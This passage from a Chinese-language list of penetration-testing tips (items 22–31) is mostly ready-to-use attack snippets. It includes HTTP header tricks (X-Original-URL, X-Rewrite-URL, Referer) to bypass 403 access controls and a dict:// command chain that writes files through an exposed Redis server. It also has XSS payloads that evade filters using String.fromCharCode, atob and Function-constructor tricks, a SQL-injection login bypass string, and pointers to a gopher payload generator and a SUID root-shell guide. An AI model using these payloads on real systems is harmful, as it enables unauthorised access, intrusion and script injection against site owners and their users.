 22、如果遇见后台页面一闪而过，接着让你登录，一般使用了权限认证方式，可以用一下方式进行绕过，或者遇见401,403,302，都可以尝试使用以下方法：
```
如果使用GET方法访问某些路径，返回403，可以先访问允许访问的路径，然后在请求头中，添加下面的头:
一、GET /xxx HTTP/1.1 à403 
Host: test.com 
绕过： GET /xxx HTTP/1.1 à200 
Host: test.com 
X-Original-URL: /xxx
X-Override-URL: /xxx
X-Rewrite-URL: /xxx

二、GET /xxx HTTP/1.1 à403 
Host: test.com 
绕过： GET /xxx HTTP/1.1 à200 
Host: test.com 
Referer: http://test.com/xxx 

三、302跳转：拦截并drop跳转的数据包，使其停留在当前页面。 

四、前端验证：只需要删掉对应的遮挡模块，或者是验证模块的前端代码。
```

23、一款生成gopher协议payload的工具：[GitHub - firebroo/sec_tools](https://github.com/firebroo/sec_tools)

24、Dict协议写入流程：
```
1.写入内容； dict://127.0.0.1:6379/set❌test 
2.设置保存路径； dict://127.0.0.1:6379/config:set:dir:/tmp/ 
3.设置保存文件名； dict://127.0.0.1:6379/config:set:dbfilename:1.png 
4.保存。 dict://127.0.0.1:6379/save
```

25、CentOS 7系统利用suid提权获取Root Shell [CentOS 7系统利用suid提权获取Root Shell - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/244627.html)

26、xss中标签利用的payload：`<a href=javascript:alert(1)>xx</a>`

27、XSS过滤了单引号，等号可以：
```
①、使用：String.fromCharCode(97,108,101,114,116,40,49,41); 
为alert(1)，该方法输出的结果为字符串，可以使用eval()进行执行，即弹框操作 eval(String.fromCharCode(97,108,101,114,116,40,49,41)); 
②、atob函数： 
eval(atob\`YWxlcnQoMSk=\`) 为 eval(atob\`alert(1)\`) 其中\`为反引号
```

28、XSS过滤了单引号，等号以及圆括号，eval：
```
①、过滤了eval函数可以用其他函数去绕过，如：Function，constructor Function`a${atob`YWxlcnQoMSk=`}``` ``.constructor.constructor`a${atob`YWxlcnQoMSk=`}```
```

29、可使用下面命令查看是否处在docker虚拟机中 `cat /proc/1/cgroup`

30、万能密码试试 `'=0#`

31、CORS漏洞验证，可以使用curl来验证：curl https://www.xxxx.com -H "Origin: https://test.com" -I 检查返回包的 `Access-Control-Allow-Origin` 字段是否为https://test.com
